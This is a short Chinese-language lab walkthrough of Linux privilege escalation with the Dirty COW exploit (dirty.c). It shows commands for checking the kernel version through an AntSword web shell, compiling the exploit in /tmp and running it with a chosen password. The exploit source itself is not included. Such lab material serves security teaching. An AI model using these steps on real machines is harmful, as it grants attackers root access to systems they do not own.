 ##### 使用exp，利用漏洞进行提权

### 实验

#### Linux脏牛提权过程--dirty.c

蚁剑连接shell，打开虚拟终端查看当前用户和内核版本信息

如果 Linux Kernel>= 2.6.22则可以利用脏牛进行提权

```bash
id
uname -a
```

​​![image](assets/image-20241030140725-jwlgieb.png)​​

将脏牛工具上传到/tmp目录下

进入/tmp目录，编译脏牛工具（上传的是源码脚本，编译后才能执行）

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

​​![image](assets/image-20241030140839-j95oib5.png)​

​![image](assets/image-20241030140853-ocyajrx.png)​​

执行脏牛工具，执行文件，后面是密码，随便定义

```bash
./dirty 123456
```

‍

​![image](assets/image-20241030140926-um5yfh4.png)​​​

